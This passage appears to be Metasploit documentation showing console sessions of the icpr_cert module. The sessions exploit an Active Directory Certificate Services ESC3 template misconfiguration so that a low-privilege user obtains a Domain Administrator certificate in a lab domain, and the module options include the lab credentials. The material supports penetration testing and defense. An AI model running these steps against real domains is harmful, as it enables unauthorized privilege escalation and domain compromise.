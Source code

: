 ```

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174559_default_unknown_windows.ad.cs_570105.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Just to show this is also possible with `ESC3-Template2` here is a snippet showing that also works:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template2
CERT_TEMPLATE => ESC3-Template2
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template2                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normaluser                      no        The password for the specified username
   SMBUser        normal                          no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
[*] Auxiliary module execution completed
```
